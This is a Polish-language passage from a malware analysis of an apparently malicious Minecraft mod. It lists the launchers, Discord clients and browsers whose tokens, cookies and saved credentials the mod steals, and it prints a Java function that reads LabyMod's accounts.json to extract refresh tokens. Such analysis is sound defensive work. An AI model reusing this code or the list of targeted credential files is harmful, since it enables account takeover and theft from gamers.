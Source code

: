 ### Kradzież danych

**Tokeny MSA**: Ponieważ ten mod jest ukierunkowany na mody Minecrafta, naturalne jest, że próbuje ukraść token MSA używany do logowania się do Minecrafta. Niektóre launchery przechowują te dane w lokalnym pliku, z którego to złośliwe oprogramowanie będzie próbować odczytać. Dotyczy to różnych launcheriów, takich jak:

* Launcher vanilla/mojang
* Starszy launcher vanilla/mojang
* PolyMC / Prism
* Technic
* Feather
* LabyMod (< v3.9.59)
* I wszelkich tokenów MSA znalezionych w [Windows Credential Manager](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)

Logika wydobycia (widoczna w [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) wygląda podobnie dla wielu elementów, ponieważ przechowują one te dane w podobny sposób. Oto przykład kodu dla LabyMod:

```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
Kod do pobierania tokenów z Feather/PolyMC/Prism jest praktycznie identyczny.

Zmiana w stosunku do tej strategii polega na tym, że Json ma dodatkową warstwę kryptografii ochrony.

Zmiana w stosunku do technic polega na przechowywaniu danych uwierzytelniających przez technic przy użyciu wbudowanej w Javie serializacji obiektów, opakowując typ `com.google.api.client.auth.oauth2.StoredCredential`.

**Tokeny Discord**: Każdy widział już kradzież tokena. Kradnie token oraz dodatkowe informacje, takie jak metody płatności, powiązany numer telefonu, itp. Dotyczy standardowego klienta, wersji canary, ptb i lightcord. Istotne źródło: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Ciasteczka i zapisane dane uwierzytelniające**: Kradnie zapisane ciasteczka i dane uwierzytelniające zapisane w dotkniętych przeglądarkach. Istotne źródło: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)
